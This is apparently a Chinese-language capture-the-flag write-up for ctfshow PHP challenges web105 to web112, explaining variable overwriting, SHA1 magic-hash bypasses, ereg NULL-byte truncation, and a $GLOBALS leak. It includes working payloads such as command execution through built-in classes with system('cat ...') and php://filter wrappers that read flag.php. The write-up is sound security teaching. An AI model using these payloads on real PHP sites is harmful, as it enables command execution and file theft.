### web105（ #变量覆盖 ）

开启容器

代码审计



考察 php 变量覆盖

这边运用`foreach`函数

1. **处理`$_GET`数据**
   ```php
   foreach($_GET as $key => $value){
       if($key==='error'){
           die("what are you doing?!");
       }
       $$key=$$value;
   }
   ```
   - 遍历`$_GET`数组中的每个键值对。
   - 如果键（`$key`）是`error`，则程序会输出`"what are you doing?!"`并终止执行。
   - 否则，将键和值都作为变量名，并将值赋给这个新变量。例如，如果`$_GET`中有`?name=John`，那么代码会创建一个变量`$name`，并将其值设置为`$John`的值（注意这里是`$$value`，即变量的变量）。

1. **处理`$_POST`数据**
   ```php
   foreach($_POST as $key => $value){
       if($value==='flag'){
           die("what are you doing?!");
       }
       $$key=$$value;
   }
   ```
   - 遍历`$_POST`数组中的每个键值对。
   - 如果值（`$value`）是`flag`，则程序会输出`"what are you doing?!"`并终止执行。
   - 否则，将键和值都作为变量名，并将值赋给这个新变量。例如，如果`$_POST`中有`age=25`，那么代码会创建一个变量`$age`，并将其值设置为`$25`的值。

之中`$$key=$$value;`是会导致变量覆盖的关键

本地调试达到 die 函数可以输出变量





那我们直接

在$error 中覆盖 flag 即可

这边先 get 后 post

不能直接 post`error=flag`,因为在 POST 中如果 value 为 flag 则会爆错，但是 get 没有所以，我们 get 传入`?suces=flag`

之后 
```
post
error=suces
```




### web106（ #Hash函数 ）

开启容器

代码审计



也是 SHA1 绕过

```
aaK1STfY
0e76658526655756207688271159624026011393
aaO8zKZF
0e89257456677279068558073954252716165668
```



### web107（ #Hash函数 ）

开启容器

代码审计



这里有一个`parse_str`函数
本地调试，将一组字符串分割出一个数组





直接将 flag 为 v3 的 md5 即可，这里注意要试下大写和小写的 md5

### web108（ #ereg #strrev ）

开启容器

代码审计



- 使用`ereg()`函数（正则表达式匹配）检查`$_GET['c']`的值是否只包含英文字母（大小写均可）。
- ereg 函数存在 NULL 截断漏洞，导致了正则过滤被绕过,所以可以使用`%00`截断正则匹配

?c=a%00778

- `strrev($_GET['c'])`：将`$_GET['c']`的值反转。例如，如果`$_GET['c']`的值是`"123"`，反转后会变成`"321"`。

传入 aaa%00778



### web109（ #异常处理类RCE ）

开启容器

代码审计



这里用异常处理类

```
payload:
?v1=Exception&v2=system('cat fl36dg.txt')
?v1=Reflectionclass&v2=system('cat fl36dg.txt')
```



其实除了异常类，只要是用 php 内置类让 v1 不进行报错，v2 执行命令即可

PHP 提供了许多内置类，这些类涵盖了各种功能，从错误处理到数据库操作，从文件系统操作到网络通信等。以下是一些常见的 PHP 内置类：

#### 1. **错误处理和异常**

- **`Exception`**：PHP 的基异常类，用于处理运行时错误。
- **`Error`**：PHP 7 引入的基错误类，用于处理致命错误。
- **`PDOException`**：与数据库相关的异常类，用于 PDO 扩展。

#### 2. **数据库操作**

- **`PDO`**：PHP 数据对象（PHP Data Objects），用于访问数据库的通用接口。
- **`MySQLi`**：MySQL 改进扩展，用于与 MySQL 数据库交互。
- **`MongoDB`**：用于与 MongoDB 数据库交互的类。

#### 3. **文件系统操作**

- **`SplFileObject`**：用于读取和写入文件的对象接口。
- **`DirectoryIterator`**：用于遍历目录的迭代器。
- **`FilesystemIterator`**：用于遍历文件系统的迭代器。

#### 4. **字符串操作**

- **`SplString`**：用于字符串操作的类（较少使用）。
- **`SimpleXMLElement`**：用于处理 XML 数据的类。

#### 5. **网络通信**

- **`SoapClient`**：用于与 SOAP Web 服务通信的类。
- **`HttpRequest`**：用于发送 HTTP 请求的类（需要安装 pecl/http 扩展）。

#### 6. **数据结构**

- **`SplStack`**：栈数据结构。
- **`SplQueue`**：队列数据结构。
- **`SplHeap`**：堆数据结构。
- **`SplFixedArray`**：固定大小的数组。

#### 7. **日期和时间**

- **`DateTime`**：用于处理日期和时间的类。
- **`DateInterval`**：用于表示时间间隔的类。
- **`DatePeriod`**：用于表示日期周期的类。

#### 8. **反射**

- **`ReflectionClass`**：用于反射类的信息。
- **`ReflectionMethod`**：用于反射方法的信息。
- **`ReflectionProperty`**：用于反射属性的信息。

#### 9. **会话管理**

- **`SessionHandler`**：用于自定义会话存储的类。
- **`SessionUploadProgress`**：用于处理文件上传进度的类。

#### 10. **其他**

- **`stdClass`**：一个空的类，通常用于存储数据。
- **`Closure`**：用于表示匿名函数的类。
- **`Generator`**：用于表示生成器的类。

以上都可以

### web110（ #内置类 ） 

开启容器

代码审计



考察内置类

可以使用 FilesystemIterator 文件系统迭代器来进行利用，通过新建 FilesystemIterator，使用 getcwd()来显示当前目录下的文件结构

```payload
?v1=FilesystemIterator&v2=getcwd
```



直接访问即可



### web111（ #全局变量 ）

开启容器

代码审计



var_dump()函数用于输出变量的相关信息

可以看到这里还是对 v1 和 v2 进行了正则的过滤，然后如果$v1 有 ctfshow，会进入 getFlag 函数

然后会执行`$ctfshow = $$v2`

这里用全局变量 GLOBALS

> `$GLOBALS` — 引用全局作用域中可用的全部变量 一个包含了全部变量的全局组合数组。变量的名字就是数组的键。

```payload
?v1=ctfshowweb&v2=GLOBALS
```



### web112（ #伪协议 ）

开启容器

代码审计



```
php://filter/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```


